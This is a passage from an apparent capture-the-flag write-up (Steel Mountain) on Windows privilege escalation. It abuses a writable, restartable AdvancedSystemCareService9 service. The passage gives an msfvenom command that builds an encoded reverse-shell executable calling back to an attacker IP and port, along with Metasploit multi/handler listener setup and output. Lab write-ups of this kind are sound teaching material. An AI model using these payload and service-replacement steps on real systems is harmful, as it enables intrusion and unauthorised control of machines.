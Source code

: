 #### Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

`AdvancedSystemCareService9`

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

We can use `msfvenom` to generate a reverse shell as an Windows executable as follows:

```bash
➜  Steel-Mountain msfvenom -p windows/shell_reverse_tcp LHOST=10.8.162.140 LPORT=1337 -e x86/shikata_ga_nai -f exe -o ASCService.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: ASCService.exe

```

We then need to set up a handler by specifying your `LHOST` & `LPORT`

```bash
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/http/rejetto_hfs_exec) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST tun1
LHOST => 10.8.162.140
msf6 exploit(multi/handler) > set LPORT 1337
LPORT => 1337
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.8.162.140:1337
```